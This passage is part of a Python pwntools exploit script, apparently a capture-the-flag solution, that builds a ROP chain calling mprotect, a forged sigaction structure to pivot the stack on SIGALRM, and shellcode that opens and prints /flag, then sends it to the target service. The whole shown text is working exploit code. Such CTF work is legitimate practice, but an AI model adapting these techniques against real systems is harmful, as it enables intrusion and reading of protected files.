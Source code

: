 ```python
            pad = pad[1:]
        return shellcode
    
    rop = [
        pop_rdi, 0x20240000,
        pop_rsi, 0x3000,
        pop_rdx_rbx, 0x7, 0,
        mprotect,
        0x20242000
    ]

    sigaction = [
        0x4047c5,   # k_sa_handler: pop rsp ; ret
        0x14000000, # sa_flags
        0x20241000, # sa_restorer:  rop_addr
        0x2000,     # sa_mask
    ]

    shellcode = asm
    ("""
        mov rax, __NR_open
        mov rdi, 0x20240100
        xor rsi, rsi
        xor rdx, rdx
        syscall

        mov rax, __NR_sendfile
        mov rdi, 1
        mov rsi, 3
        xor rdx, rdx
        mov r10, 0x30
        syscall
    """)

    res = []
    while (len(shellcode) > 0):
        res.append(u64(shellcode[:8].ljust(0x8, b'\x00')))
        shellcode = shellcode[8:]
    
    pad = []
    pad += write_addr(0x20240000, sigaction)
    pad += write_addr(0x20241000, rop)
    pad += write_addr(0x20242000, res)
    pad += write_addr(0x20240100, [u64(b'/flag'.ljust(0x8, b'\x00'))])
    pad += [
        b'SET REG0 0E',       # SIGALRM
        b'SET REG1 20240000', # sigaction
        b'SET REG2 0',        # old_sigaction
        b'SET REG3 8',        # size
        b'INT 0D',
        b'JMP 48'             # infinite loop, wait the SIGALRM arrive
    ]
    
    pad = b''.join([i + b'\n' for i in pad])
    print(hex(len(pad)))

    io.sendafter(b'EOF', pad)
    # DEBUG('b * 0x403EEF')
    sleep(1)
    io.shutdown('send')
    
    pass

```
